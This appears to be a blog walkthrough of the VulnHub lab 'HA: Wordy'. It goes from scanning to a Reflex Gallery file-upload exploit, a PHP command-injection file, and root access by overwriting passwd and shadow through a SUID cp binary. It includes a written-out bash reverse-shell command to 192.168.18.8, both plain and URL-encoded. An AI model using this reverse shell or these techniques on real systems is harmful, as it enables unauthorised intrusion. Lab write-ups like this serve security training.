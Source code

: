 <!-- wp:paragraph -->
<p><a href="https://www.vulnhub.com/entry/ha-wordy,363/" target="_blank" rel="noreferrer noopener">https://www.vulnhub.com/entry/ha-wordy,363/</a></p>
<!-- /wp:paragraph -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"vivid-purple","fontSize":"small"} -->
<p class="has-text-align-center has-vivid-purple-background-color has-background has-small-font-size">Review</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li>Enumerate will lead to a clue and WordPress site</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Use WPscan to enumerate the WordPress site</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Find an exploit for the Reflex gallery</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Upload a PHP command injection script to the folder</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Use command injection to gain a shell</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Check for SUID permissions</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Edit the shadow and passwd for a new root user</li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"luminous-vivid-amber","fontSize":"small"} -->
<p class="has-text-align-center has-luminous-vivid-amber-background-color has-background has-small-font-size"><strong>Enumeration</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Run nmap scan to find for open ports.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6348,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-197.png?w=697" alt="" class="wp-image-6348"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Run a gobuster scan to find for hidden directories. </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6349,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-198.png?w=1024" alt="" class="wp-image-6349"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Port 80</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6351,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-199.png?w=1024" alt="" class="wp-image-6351"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>/info.php</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6353,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-200.png?w=609" alt="" class="wp-image-6353"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>/notes.txt</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6354,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-201.png?w=513" alt="" class="wp-image-6354"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>/ wordpress</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6356,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-202.png?w=1024" alt="" class="wp-image-6356"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Since it has a wordpress website, Let's use WPscan to enumerate more. </p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Found two users.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6359,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-203.png?w=827" alt="" class="wp-image-6359"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Found an upload folder.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6380,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-215.png?w=964" alt="" class="wp-image-6380"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":6381,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-216.png?w=1024" alt="" class="wp-image-6381"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>There a whole bunch of vulnerable plugins available. Let's try the following first.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6379,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-214.png?w=973" alt="" class="wp-image-6379"/><figcaption class="wp-element-caption">Let's try an Arbitrary File Upload.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Search in searchsploit if there are any reflex gallery exploits.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6376,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-212.png?w=998" alt="" class="wp-image-6376"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>We can use the exploit to craft a malicious html page with an upload function.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6378,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-213.png?w=1024" alt="" class="wp-image-6378"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Let's create a html file paste the exploit code. Change the IP address , port and the year and month of the year and month folder found in the uploads directory.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6383,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-217.png?w=1024" alt="" class="wp-image-6383"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>We get an upload page if done correctly.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6385,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-218.png?w=750" alt="" class="wp-image-6385"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Craft the command injection php file.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6393,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-223.png?w=531" alt="" class="wp-image-6393"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Upload the PHP file.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6389,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-220.png?w=628" alt="" class="wp-image-6389"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":6390,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-221.png?w=816" alt="" class="wp-image-6390"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":6391,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-222.png?w=1024" alt="" class="wp-image-6391"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Let's test the file</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>add the following payload cmd.php?=cmd=pwd</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6394,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-224.png?w=610" alt="" class="wp-image-6394"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Now let's spawn bash reverse shell</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Remember to wrap the bash script and URL encode the payload. And start a netcat listener. </p>
<!-- /wp:paragraph -->

<!-- wp:code -->
<pre class="wp-block-code"><code>bash -c 'bash -i &gt;&amp; /dev/tcp/192.168.18.8/1234 0&gt;&amp;1'</code></pre>
<!-- /wp:code -->

<!-- wp:code -->
<pre class="wp-block-code"><code>bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.18.8%2F1234%200%3E%261%27</code></pre>
<!-- /wp:code -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"vivid-cyan-blue","fontSize":"small"} -->
<p class="has-text-align-center has-vivid-cyan-blue-background-color has-background has-small-font-size"><strong>Foothold</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>A shell is gained.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6396,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-225.png?w=986" alt="" class="wp-image-6396"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>We find the first flag is raj home directory.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6398,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-226.png?w=511" alt="" class="wp-image-6398"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>After come time enumerating I found some SUIDS.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6400,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-227.png?w=776" alt="" class="wp-image-6400"/><figcaption class="wp-element-caption">the copy command might be a way.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"black","textColor":"white","fontSize":"small"} -->
<p class="has-text-align-center has-white-color has-black-background-color has-text-color has-background has-small-font-size"><strong>Privilege escalation</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>We can copy and edit the passwd &amp; shadow file with /bin/cp SUID permissions.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>First cp the file to the WordPress upload folder and download it to your local machine.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Use openssl to generate a hash and update both files. Use wget to download both files into the machine and place them in their original page.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6403,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-228.png?w=1024" alt="" class="wp-image-6403"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Use the script command to generate a shell and switch to the newly added root user.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6405,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-229.png?w=1024" alt="" class="wp-image-6405"/><figcaption class="wp-element-caption">root access is gained.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Get the final flag.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":6406,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-230.png?w=1024" alt="" class="wp-image-6406"/></figure>
<!-- /wp:image -->
